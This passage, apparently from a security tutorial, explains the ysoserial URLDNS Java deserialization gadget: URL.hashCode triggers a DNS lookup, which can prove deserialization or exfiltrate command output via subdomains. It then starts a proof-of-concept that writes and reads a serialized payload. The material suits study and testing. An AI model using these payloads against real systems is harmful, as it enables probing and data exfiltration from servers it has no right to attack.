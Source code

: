 ```java
 public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
```

As you can see, when a `URLObject` executes`.hashCode()` it is called `hashCode(this)`. A continuation you can see the code of this function:

```java
 protected int hashCode(URL u) {
        int h = 0;

        // Generate the protocol part.
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();

        // Generate the host part.
        InetAddress addr = getHostAddress(u);
        [   ...   ]
```

You can see that a `getHostAddress` is executed to the domain, **launching a DNS query**.

Therefore, this class can be **abused** in order to **launch** a **DNS query** to **demonstrate** that **deserialization** is possible, or even to **exfiltrate information** (you can append as subdomain the output of a command execution).

### URLDNS payload code example

You can find the [URDNS payload code from ysoserial here](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java). However, just for make it easier to understand how to code it I created my own PoC (based on the one from ysoserial):

```java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

public class URLDNS {
	public static void GeneratePayload(Object instance, String file)
            throws Exception {
        //Serialize the constructed payload and write it to the file
        File f = new File(file);
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
	public static void payloadTest(String file) throws Exception {
        //Read the written payload and deserialize it
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        Object obj = in.readObject();
        System.out.println(obj);
```